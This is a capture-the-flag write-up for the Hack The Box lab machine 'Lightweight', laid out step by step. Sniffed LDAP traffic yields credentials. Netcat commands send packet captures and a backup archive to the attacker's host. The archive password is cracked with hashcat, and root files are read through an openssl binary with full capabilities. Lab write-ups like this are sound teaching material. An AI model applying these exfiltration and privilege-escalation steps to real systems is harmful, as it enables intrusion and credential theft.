

# Lightweight
[](https://www.hackthebox.eu/home/machines/profile/166)

## Initial Foothold
### Nmap
We run nmap.
```sh
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
```
If we open a web browser and navigate to the "user" tab, we'll see the following message:
```
This server lets you get in with ssh. Your IP (10.10.14.3) is automatically added as userid and password within a minute of your first http page request
```
We connect via ssh.
```sh
$ ssh 10.10.14.3@10.10.10.119
pass: 10.10.14.3
```
After some basic enumeration, we run tcpdump and hope for some incoming traffic.
```sh
$ tcpdump -i any -s 65535 -w capture.pcap
```
Now the weird part. While we are capturing with tcpdump, we are making some traffic on the website by clicking on random tabs (i really don't know why). After some time, we get the ***.pcap*** file locally.
First we upload ***nc***.
```sh
$ cp /bin/nc /var/www/html
$ wget http://10.10.14.3/nc
$ chmod +x nc
```
On host:
```sh
$ nc -lvp 5656 > capture.pcap
```
On remote:
```sh
$ ./nc 10.10.14.3 5656 < capture.pcap
```
Finally we open it up with wireshark and put ***ldap*** in the bar on the top where it says "Apply a display filter", so we can search only the LDAP protocol.

Now we got a password for user ***ldapuser2***.
```sh
$ su ldapuser2
pass: 8bc8251332abe1d7f105d3e53ad39ac2
```
And once we are logged in as ldapuser2, we take the flag.
```sh
$ cd ~/
$ cat user.txt
```

## Privesc
In the home directory we can see a file called ***backup.7z***. If we try to extract the data we realize that it is password protected. So we crack it but first we take it locally as well.
```sh
$ wget http://10.10.14.3/nc
$ chmod +x nc
$ nc -lvp 5656 > backup.7z
$ ./nc 10.10.14.3 5656 < backup.7z
```
Then to crack it, we do the following.
```sh 
$ git clone https://github.com/philsmd/7z2hashcat.git
$ cd 7z2hashcat-master
$ cpan Compress::Raw::Lzma
$ ./7z2hashcat.pl ../backup.7z
```
The "cpan" is Perl's package manager. So we need to install these packages first in order to run ***7z2hashcat.pl*** we just downloaded from github. When it is finished we put the hash into a file (e.g hash.txt) and we start hashcat.
```sh
hashcat --force -m 11600 hash.txt /usr/share/wordlists/rockyou.txt --show
```
When it's over we get the password:
```sh
$ 7za x backup.7z
pass:delete
```
From the extracted files we open ***status.php*** and we get the password for user ***ldapuser1***. We can now change to ldapuser1.
```sh
$ su ldapuser1
pass: f3ca9d298a553da117442deeb6fa932d
```
After spending some time enumerating, we realize that the user has some capabilities.
```sh
$ cd ~/
$ getcap -r / 2>/dev/null
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```
If we pay close attention on ***openssll*** and according to [this](https://linux.die.net/man/3/cap_from_text), openssl has "All" capabilities set up. So we can exploit this and do some things as root.
One way to read files with openssl is to encrypt and decrypt them as [follows](https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/).
```sh
$ ./openssl enc -aes-256-cbc -salt -in /root/root.txt -out ~/file.txt.enc -k PASS
$ ./openssl enc -aes-256-cbc -d -in ~/file.txt.enc -out file.txt -k PASS
```
Now we open the ***file.txt*** to get the flag.
```sh
$ cat file.txt
```
We got ***ROOT!!!***   

[](https://www.hackthebox.eu/home/users/profile/27897) [](https://www.hackthebox.eu/)

